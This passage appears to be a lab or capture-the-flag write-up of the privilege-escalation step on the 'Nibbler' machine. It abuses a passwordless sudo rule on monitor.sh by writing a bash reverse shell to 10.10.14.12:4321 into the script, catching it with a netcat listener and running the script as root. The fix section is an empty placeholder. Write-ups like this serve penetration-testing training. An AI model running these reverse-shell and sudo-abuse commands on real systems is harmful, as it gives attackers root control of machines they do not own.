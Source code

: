 #### Privilege Escalation

**Vulnerability Exploited:** Weak file permissions.

**Vulnerability Explanation:**

The user *nibbler* is able to execute a file with sudo permissions, without a password being required. The only conditions for this privilege escalation are that the file is in the */home/nibbler/personal/stuff/* directory, and is named *monitor.sh*.

**Vulnerability Fix:**

Reference: *link*

**Severity:** Critical

\newpage

**Exploit Code:**

We can accomplish this privilege escalation by following these steps:

1. Execute these commands to make sure that the directory */home/nibbler/personal/stuff/*, and *monitor.sh* exists:

```bash
mkdir /home/nibbler/personal/
mkdir /home/nibbler/personal/stuff/
touch /home/nibbler/personal/stuff/monitor.sh
```

2. Now let's change *monitor.sh* to execute a reverse shell when ran by any user.

```bash
echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.12/4321 0>&1" > /home/nibbler/personal/stuff/monitor.sh
```

3. On our attacker machine, we need to start a netcat listener:

```bash
nc -lvnp 4321
```

4. We can now run *monitor.sh* as the user *root*, and  execute reverse shell using the following commands:

```bash
chmod +x /home/nibbler/personal/stuff/monitor.sh
cd /home/nibbler/personal/stuff/
sudo ./monitor.sh
```

5. Looking back to our attacker machine's netcat listener, we see that we can execute commands in our new reverse shell.

![Getting a Reverse Shell](screenshots-storage/got_root_shell.png)
